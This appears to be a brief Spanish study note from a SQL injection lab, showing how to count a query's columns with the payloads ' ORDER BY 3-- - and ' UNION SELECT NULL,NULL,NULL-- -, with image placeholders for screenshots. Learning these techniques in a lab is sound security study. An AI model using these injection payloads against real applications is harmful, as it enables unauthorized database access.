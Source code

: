 ****
Objetivo: Conocer todas la columnas existentes.

![[Pasted image 20250719213152.png]]

Consulta para conocer la cantidad de columnas: `' ORDER BY 3-- -`

![[Pasted image 20250719213808.png]]

Vamos a realizar la consulta con `UNION SELECT`.
Consulta para conocer la cantidad de columnas UNION SELECT: `' UNION SELECT NULL,NULL,NULL-- -`

![[Pasted image 20250719214153.png]]
